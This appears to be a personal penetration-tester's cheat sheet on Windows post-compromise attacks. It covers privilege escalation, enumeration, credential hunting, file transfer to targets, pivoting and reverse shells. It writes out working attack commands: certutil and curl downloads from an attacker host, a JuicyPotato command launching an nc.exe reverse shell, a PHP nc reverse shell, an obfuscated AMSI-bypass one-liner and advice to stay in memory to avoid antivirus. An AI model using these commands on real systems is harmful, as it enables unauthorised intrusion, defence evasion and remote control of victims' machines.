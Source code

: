 ```yaml
---
title: WINDOWS POST-COMPROMISE ATTACK STRATEGY
updated: 2023-12-08 00:40:41Z
created: 2023-09-28 09:53:49Z
latitude: -35.28093680
longitude: 149.13000920
altitude: 0.0000
---
```


# POST-COMPROMISE ATTACK STRATEGY

1.  search quick wins (**kerberoasting** , **secretsdump**, **pass the hash/password**)
2.  No quick wins? dig deep

- Enumerate (**bloodhound**)
- where does your account have access?
- old vulernabilities die hard

3.  Think outside the box (how can i move **laterally** until I can move **vertically**)

* * *

winPEAS.exe  
winPEAS.bat  
winEnum.ps1  
PowerUp.ps1

* * *

### Copy files from Kali to target using HTTP

`python3 -m http.server 80`  
Then use either curl, certutil:  
`curl http://<kali>/file.exe -o file.exe`  
`certutil -urlcache -f http://<kali>/file.exe file.exe`  
![d7bd7c5e54bf1b25fba953fff89d1c73.png](../_resources/d7bd7c5e54bf1b25fba953fff89d1c73.png)  
`$client = new-object System.Net.WebClient $client.DownloadFile("http://<kali>/file`

### Copy files from Kali to target using FTP

`python3 -m pyftpdlib -p 21 --write`

### Copy files from target to Kali

`python3 /opt/impacket/examples/smbserver.py -smb2support myshare .`

## Windows Enumeration

### System

1.  `systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"`
2.  `wmic qfe get Caption,Description,HotFixId,InstalledOn`
3.  `wmic logicaldisk get Caption,Description,ProviderName`
4.  `type file.txt` or `more < file.txt`

### Alternate data streams

1.  `dir /R`
2.  Search for ADS  
    `gci -recurse | % { gi $_.FullName -stream * } | where stream -ne ':$Data'`

### Users

1.  `` `whoami /priv ` ``
    
    ```
    If user has SeImpersonate privs 
    # \\192.168.119.155\test\juicy.exe -l 4444 -p c:\windows\system32\cmd.exe -a "/c  \\192.168.119.155\test\nc.exe -e cmd.exe 192.168.119.155 4447" -t * -c {6d18ad12-bde3-4393-b311-099c346e6df9}
    ```
    
2.  `whoami /groups`
    
3.  `net user` & `net user <username>`
    
4.  `net localgroup administrators`
    

### Network

1.  `ipconfig all`
2.  `arp -a`
3.  `route print`
4.  `netstat -ano`
5.  `tasklist`

### Password Hunting

[https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology and Resources/Windows - Privilege Escalation.md#eop---looting-for-passwords](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md#eop---looting-for-passwords)

1.  `cmdkey /list`
2.  `c:\windows\system32\runas.exe /savecred /user:WORKGROUP\Administrator "c:\windows\system32\cmd.exe /c <command to run>""`

### Anti-Virus/Firewall

1.  `sc query windefend`
2.  `sc queryex type=service`
3.  `netsh advfirewall firewall dump` OR `netsh firewall show state`
4.  `netsh firewall show config`

### Open PowerShell from CMD.exe

`cmd> powershell -ep bypass`

`PS> sET-ItEM ( 'V'+'aR' + 'IA' + 'blE:1q2' + 'uZx' ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( GeT-VariaBle ( "1Q2U" +"zX" ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System' ) )."g`etf`iElD"( ( "{0}{2}{1}" -f'amsi','d','InitFaile' ),( "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )`

# Port Forwarding 
## PLINK.EXE

`plink.exe -l root -pw toor -R 445:127.0.0.1:445 222 10.10.16.3`

## Chisel
1. On Kali, run a reverse server to forward local ports to remote target
`sudo /home/kali/Tools/Chisel/chisel_1.9.1_linux_amd64 server -port 6666 --reverse`

2. On target, create a tunnel to a port
`\\<kali>\myshare\chisel_windows_amd64.exe client <kali>:6666 R:910:127.0.0.1:910`

### PsExec.py

1.  `psexec.py <user>:<password>@<target IP>`

### IIS PHP revsers shell

1.  When normal php (or aspx) file doesn't run. Upload nc.exe and myshell.php  
    `<?php system('nc.exe -e cmd.exe 10.10.16.3 666 ?>`

### GetSystem

`Meterpreter > getsystem`

```
0 : All techniques available
1 : Service - Named Pipe Impersonation (In Memory/Admin)
    Inject into service that runs as SYSTEM
2 : Service - Named Pipe Impersonation (Dropper/Admin)
    Drops DLL file to disk (avoid!)
3 : Service - Token Duplication (In Memory/Admin)
    Requires SeDebugPrivileges
```

**!!! Only run in memory or token, as disk can causing AV crashing**